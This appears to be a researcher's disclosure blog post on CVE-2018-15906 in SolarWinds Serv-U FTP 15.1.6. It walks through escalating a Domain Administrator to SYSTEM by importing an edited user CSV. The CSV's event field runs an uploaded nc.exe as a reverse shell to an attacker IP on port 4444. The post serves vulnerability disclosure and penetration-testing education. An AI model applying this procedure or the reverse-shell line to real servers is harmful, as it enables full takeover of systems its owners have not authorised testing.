 ```yaml
---
title:  "Serv-U FTP: Privilege Escalation to Remote Code Execution"
date:   2019-02-03
published: true
layout: post
comments: false
excerpt: "I found an interesting way to achieve remote code execution on a recent test. I ended up submitting a detailed description of manual exploitation to the vendor, and I thought it might be interesting to share here."
---
```

# Introduction
I found an interesting way to achieve remote code execution on a recent test. I ended up submitting a detailed description of manual exploitation to the vendor, and I thought it might be interesting to share here.

The write-up below is a combination of my public disclosure and a detailed how-to I provided to the vendor. I think the exploitation method is a good example of how downloading a target product into a test environment allows you to find some quirky vulnerabilities that automated tools would never flag.

Enjoy!

# Vulnerability

## Description
SolarWinds Serv-U FTP Server is vulnerable to privilege escalation from remote authenticated users by leveraging the CSV user import function. This leads to obtaining remote code execution under the context of the Windows SYSTEM account in a default installation.

Version exploited: Serv-U 15.1.6<br>
Fixed in: Serv-U 15.1.6 Hotfix 2<br>
CVE-2018-15906

## Overview
Privilege escalation is possible from an authenticated user who is a member of the "Domain Administrators" group to a user with full administrative rights (System Administrator), permitting remote command execution.

Serv-U allows users with the "System Administrator" role to configure events which trigger tasks, such as running executables. Lower-level administrators such as "Domain Administrators" are denied this option. When authenticated as one of these lower-level administrators, this control can be bypassed by using the built-in user "Import" function to load a CSV file with the event already
defined.

As this tool also permits file uploads, an authenticated attacker can upload something like nc.exe and define a trigger to execute a reverse-shell connection to a remote box. The application installs as SYSTEM by default, leading to a complete compromise of the machine.

This method may also bypass other restrictions, such as granting users execute permissions on directories, elevating their administrative privileges, and granting them access to alternative UIs

## Manual Exploitation
*The info below assumes a test environment you control, but you can adjust accordingly to use on an actual target.*


Log in using the “Management Console” application on the Windows server itself. Create the following two users in a domain called “test”:
- lowpriv (no admin privileges, only read access on home directory)
- domadmin (domain administrator, read/write on home directory)

Next, log in to the web interface as domadmin. 

In the file area (/Web%20Client/ListDir.htm), upload an executable to the home directory. I used “nc.exe” for its reverse-shell capabilities, but really anything will work for a POC.

Back in the management area (/?Command=Login) go to the test domain and select “Users”. Edit the lowpriv user. Go to the “Events” tab and click “Add”. Try to set one up with “Action” set to “Execute Command” and click “Save”

See that we do not have permission to do this:

![](/images/post-servu-privesc/1.png)

Try to edit the permissions of our own account in the UI. Select our own account and choose “Edit”.  See that we are blocked from doing this as shown:

![](/images/post-servu-privesc/2.png)

Still in the web UI, under Domain Users click the “Export” button to save the CSV. Make some changes to this CSV:

Duplicate the user “lowpriv” in a new row called “lowpriv2”, changing the `SUEvent` column to include the following text:

```1,10,EventID,200,EventName,Event 01,Action,2,Data1,192.168.1.214 4444 -e cmd.exe,ExeFilePath,/nc.exe
```

The command above is executing NC to connect back to my attacking machine, which has a listener running. I was able to get the syntax exactly correct by first logging in as a "System Administrator" and manually configuring a task on a user, then exporting the CSV.

After saving the changes, we import the CSV back in while logged in as domadmin. We should see a message that 1 of 3 users have been imported.

Now, click on “Edit” for user lowpriv2. Go to the “Events” tab and see that we now have the “Execute Command” event that we do should not have the permission to create. 

![](/images/post-servu-privesc/3.png)

Highlight the task and click “Test Event” and it will execute. Also it will execute when the user lowpriv logs in.

We now have a shell with System permissions on our attacking box, giving us complete control of the server. From here, we can compromise the box or manually edit the Serv-U archive files to create full admin accounts:

![](/images/post-servu-privesc/4.png)

# Lesson Learned
Whenever possible, try to identify at least one interesting app on your external penetration tests that can be downloaded and installed locally. Spend some time learning how it works, and see if you can discover some interesting logic flaws like this one.

Good luck!
